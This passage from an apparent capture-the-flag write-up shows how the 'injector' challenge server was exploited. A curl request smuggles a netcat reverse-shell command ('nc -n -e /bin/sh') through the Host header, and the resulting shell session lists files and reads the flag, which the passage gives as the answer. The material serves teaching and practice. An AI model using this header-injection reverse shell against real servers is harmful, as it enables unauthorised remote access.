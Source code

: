 ```shell-session hl_lines="1 29"
<p>If you see this page, the nginx web server is successfully installed and
working. Further configuration is required.</p>

<p>For online documentation and support please refer to
<a href="http://nginx.org/">nginx.org</a>.<br/>
Commercial support is available at
<a href="http://nginx.com/">nginx.com</a>.</p>

<p><em>Thank you for using nginx.</em></p>
</body>
</html>
root@injector-local:~# ls -l /tmp
total 16
-rw-r--r-- 1 www-data www-data 1778 Jan 29 03:47 passwd
```

And we see the exploit did run: `/etc/passwd` has been copied to `/tmp`, by the user `www-data`.

Finally, we're ready to exploit this on the real system `injector.challenges.adversary.zone`. 
On an Internet-accessible host, start a `netcat` listener on a port, then send a `curl` request
to the server:

```shell-session
xps15$ curl -H 'Host: cmd{nc -n -e /bin/sh ###.##.###.## 12345}' http://injector.challenges.adversary.zone:4321
```

We'll get a shell connected to the `netcat` listener on our host. As in the test, it's running as
`www-data`. There is a symlink `/flag.txt` pointing to `/home/user`, the contents of which 
is the answer for this challenge. Also in the user's home directory is the non-obfuscated
version of the exploit script, and a script to start it when the server reboots:

```shell-session
remote$ nc -vnlp 12345
Received connection from ::ffff:167.99.209.243 port 50798
pwd
/
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
ls -l
total 64
lrwxrwxrwx   1 root root     7 Oct 22 13:58 bin -> usr/bin
drwxr-xr-x   3 root root  4096 Dec 17 15:16 boot
drwxr-xr-x   2 root root  4096 Dec 17 14:59 cdrom
drwxr-xr-x  17 root root  3860 Jan 28 03:59 dev
drwxr-xr-x  92 root root  4096 Jan 12 14:56 etc
lrwxrwxrwx   1 root root    19 Jan 12 12:57 flag -> /home/user/flag.txt
lrwxrwxrwx   1 root root    19 Jan 12 12:10 flag.txt -> /home/user/flag.txt
drwxr-xr-x   3 root root  4096 Dec 17 15:07 home

...

cd /home/user
ls -l
total 12
-rw-r--r-- 1 root root   23 Jan 12 12:08 flag.txt
-rwxr-xr-x 1 root root 3027 Jan 12 14:59 injector.sh
-rwxr-xr-x 1 root root  246 Jan 12 15:21 start.sh
cat flag.txt
CS{fr33_h00k_b4ckd00r}
```

## Answer
**`CS{fr33_h00k_b4ckd00r}`**
